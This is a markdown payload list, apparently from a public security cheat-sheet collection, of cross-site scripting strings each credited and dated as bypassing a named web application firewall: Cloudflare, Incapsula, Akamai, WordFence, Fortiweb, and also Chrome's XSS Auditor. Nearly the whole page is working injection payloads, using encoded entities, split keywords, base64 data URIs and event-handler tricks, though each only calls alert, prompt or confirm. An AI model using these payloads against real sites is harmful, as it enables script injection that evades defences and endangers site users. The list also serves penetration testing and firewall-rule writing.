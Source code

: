 # Common WAF Bypass

## Cloudflare

* 25st January 2021 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 21st April 2020 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 22nd August 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 5th June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 3rd June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 22nd March 2019 - @RakeshMane10
    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```


* 27th February 2018
    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

NOTE: Chrome Auditor is deprecated and removed on latest version of Chrome and Chromium Browser.

* 9th August 2018
    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```


## Incapsula WAF

* 11th May 2019 - [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 
    ```js
    <svg onload\r\n=$.globalEval("al"+"ert()");>
    ```

* 8th March 2018 - [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)
    ```javascript
    anythinglr00</script><script>alert(document.domain)</script>uxldz
    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    ```

* 11th September 2018 - [@c0d3G33k](https://twitter.com/c0d3G33k)
    ```javascript
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    ```


## Akamai WAF

* 18th June 2018 - [@zseano](https://twitter.com/zseano)
    ```javascript
    ?"></script><base%20c%3D=href%3Dhttps:\mysite>
    ```

* 28th October 2018 - [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480)
    ```svg
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    ```


## WordFence WAF 

* 12th September 2018 - [@brutelogic](https://twitter.com/brutelogic)
    ```html
    <a href=javas&#99;ript:alert(1)>
    ```

## Fortiweb WAF

* 9th July 2019 - [@rezaduty](https://twitter.com/rezaduty)
    ```javascript
    \u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
    ```


## References

* [TODO](TODO)